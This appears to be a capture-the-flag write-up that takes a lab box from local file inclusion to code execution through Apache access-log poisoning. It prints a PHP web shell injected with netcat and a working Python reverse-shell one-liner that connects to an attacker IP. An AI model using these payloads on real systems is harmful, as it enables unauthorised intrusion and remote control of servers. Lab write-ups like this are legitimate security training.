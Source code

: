 ```php
                echo "<script>alert('details saved in a file')</script>";
        }
}
else
{
echo "<h3 style='color:red;text-align:center'>You can't access this feature!'</h3>";
}
}
else
{
header('Location: index.php');
}

?>
```

We confirm the lfi and we see that we don't need the post request to trigger the lfi, the text is just black on black.



Don't think we can do much with the `whoami` request. The parameter is escaped so no sql injection.



A way to get RCE is to include `/var/log/apache2/access.log` and include rce code by using our useragent.

Unfortunately, the access log was already polluted by our gobuster and nikto scan. So let's just restart the box to clear it out and insert an rce payload.



<<<<<<< HEAD
After some unsucessfull attempts with `curl` and `User-Agents`, I ended up using the `path` of the request to inject our command runner. Using netcat was the easiest, easier to pass symbols.

```
nc 10.10.46.79 80
GET /<?php system($_GET['cmd']); ?>
```

Now we have code execution using `?cmd=ls`.

Let's get a revshell. 
Tried to get the shell with bash revshell but it didn't work

Then with `python`, worked when I used `python3` :
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We now have a shell, but we need access to `yash` account

## Lateral movement
We are `www-data` we need access to `yash`.
